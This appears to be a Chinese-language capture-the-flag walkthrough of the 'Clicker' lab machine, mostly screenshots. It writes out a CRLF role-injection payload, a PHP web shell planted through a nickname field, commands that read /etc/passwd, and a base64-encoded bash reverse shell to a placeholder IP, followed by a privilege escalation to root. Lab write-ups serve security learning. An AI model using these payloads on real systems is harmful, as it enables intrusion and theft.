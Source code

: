 # Clicker 

## Step 1: Nmap

一樣先掃看看

![Screenshot 2023-12-19 193215](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/546e37fe-e0e7-494a-becc-1b199d22a409)

發現有NFS伺服器和Apache server

## Step 2: NFS

把東西抓下來看看有啥

![Screenshot 2023-12-19 194250](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/620ba8b2-609c-4415-9c91-f637f0e2147b)
![Screenshot 2023-12-19 194447](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/260dbb91-9927-4f42-9d7c-02126d014d2f)
![Screenshot 2023-12-19 194550](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/6c1714a0-d4cd-45e4-a0e5-408aac7bd5fa)
![Screenshot 2023-12-19 194824](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/7b6bbca4-6d6a-4eab-af20-ce3524c989e3)

現在我們有整個網站的Backup了

但不清楚這個網站在幹嘛

去它的WEB翻翻看垃圾

## Step 3: WEB

發現在註冊時會有疑似可以注入的地方出現
![Screenshot 2023-12-19 195703](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/13d908ba-cb57-43f6-a339-6d37f11b4ead)

找不到適合的注入方式，找找看其他東西

![Screenshot 2023-12-19 200553](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/f2b90989-e5b4-48e4-8b92-7456cf949257)

發現這個小遊戲會變更到save_game.php這個檔案
![Screenshot 2023-12-19 200814](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/6ea41284-2afc-4d22-af8b-c8a78c3b2f16)

發現backup中對role這個東西會擋

![Screenshot 2023-12-19 201019](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/536b9ef3-a258-4d0e-9601-cb049e92aa1f)
![Screenshot 2023-12-19 201111](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/057cb3b3-7f18-47d6-aae6-064be9ccb658)

測測看

![Screenshot 2023-12-19 201236](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/197449a3-adfc-4e4c-81aa-131866a47602)

找到你囉漏洞

[CRLF Injection](https://www.geeksforgeeks.org/crlf-injection-attack/)

![Screenshot 2023-12-19 201236](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/4c9ba320-0ebd-41f3-9f54-c1f21bb379bd)
![Screenshot 2023-12-19 201256](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/beb25c34-4f56-4541-9920-e9dae9fa0936)

試試看我們的酷炫Injection

> &role%0a=Admin

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/409139ff-19bc-42e2-927a-3b0b07612170)
![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/71ad048c-27a4-4eee-b8e9-54c5c20b26cc)

重新登入就可以看到新的東西了

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/72ed66b4-61ac-49fd-b3d5-6fd17b2556c6)

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/4542d0a7-3846-4a2d-95b2-2eb32e96d78b)

Export看看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/31087803-bd07-46ab-b987-c4279ac7a0bd)

可以到指定的路徑下面查看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/a4941da2-048b-481d-adc9-412987d92cb7)

又找到新的酷東西

![Screenshot 2023-12-19 203816](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/96c6d4ff-0819-4e41-964c-dc56c04ce8b0)


把extentsion改成php試試看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/c6793dbc-5dc7-42db-8ce4-fcd78033ed05)

變成php了

進去看看

![image](https://github.com/TwMoonBear-Arsenal/Pub-ClassWork/assets/25276693/a383f1ac-1d78-4b6c-9370-07ef8042960c)

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/dfebe736-97dc-4efd-98e2-2a5a32664b84)

回到backup裡面，發現裡面有一個authenticate.php

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/01ad81f3-7434-452b-8ad0-2919d8f3f34c)

發現還有一個parameter叫做"Nickname"可以用

試試看能不能做shell出來  

> &nickname=<%3fphp+system($_GET['cmd'])+%3f>

> <file_name>.php?cmd=id

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/78c9d1e2-d470-41a1-b3f6-fd07c82d1aa5)

> <file_name>.php?cmd=cat /etc/passwd

![image](https://github.com/FromSouth/Pub-ClassWork/assets/25276693/85cf53a7-5c55-4e98-8239-6414e343e908)

這裡面要特別注意的是密碼除了root以外

還有一個用戶叫做jack

## Step 4:Reverse Shell

> echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
 
> echo%20%22<your_reverse_shell>%22%20|%20base64%20-d%20|%20bash

成功!!
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/4809f0d3-98ae-4e27-8789-46e28ce060a7)

找到/opt
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/b546af85-6a6e-41bd-a8f7-1a823809a01d)
看看他講了甚麼
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/faa63a03-8a9d-4325-bc92-af2800147d58)

不太懂為甚麼用5，總之有成功
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/225e0b1f-e7a6-4c93-a565-ed84e8aa8329)
## Step 5: Connect

把private key 寫入id_rsa
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/565a3b2f-1721-4e08-92ac-e6d2857052ce)

連線成功!
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/7442e244-fd14-4e34-affc-68a6820a8a80)

### Get Flag!
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/6bbe927f-676b-4a8b-80a7-9a992207d7a5)

`sudo -l發現monitor.sh需要root權限，相當奇怪`
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/80c06ca1-8e6d-4055-8611-c83bd388273a)


![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/9c994816-5de2-4c8b-90b7-87eaaffbe21d)

這裡有一個漏洞「perl_startup」權限升級。 這使我能夠以 root 權限執行腳本

[漏洞](https://www.exploit-db.com/exploits/39702)
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/7ae87de5-4746-4b68-9ac0-ae5094806c9e)

`bash -p`執行安全模式
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/d30d257b-eb96-4223-89ae-ad16c08a1aa3)

終於!!
![image](https://github.com/Draw0919/Pub-ClassWork/assets/102810421/6a94e1fe-6ca3-4847-95dd-627def2b763a)








